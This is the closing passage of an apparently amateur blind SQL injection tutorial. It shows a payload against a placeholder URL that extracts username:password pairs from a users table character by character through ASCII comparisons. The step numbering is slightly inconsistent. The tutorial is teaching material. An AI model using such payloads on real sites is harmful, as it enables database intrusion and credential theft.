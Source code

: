 error ! lower number

http://www.website.com/articles.php?id=3 and ascii(substring((SELECT concat(username,0x3a,password) from users limit 0,1),1,1))>105

Error That we search!!

now, we know that the second character is char(105) and that is 'i' with the ascii converter. We have 'ci' now from the first and the second charactets

our tutorial draws to the close!

Thanks you for reading and i hope that you have understand SQL Injection and exploitations of this vulnerability .
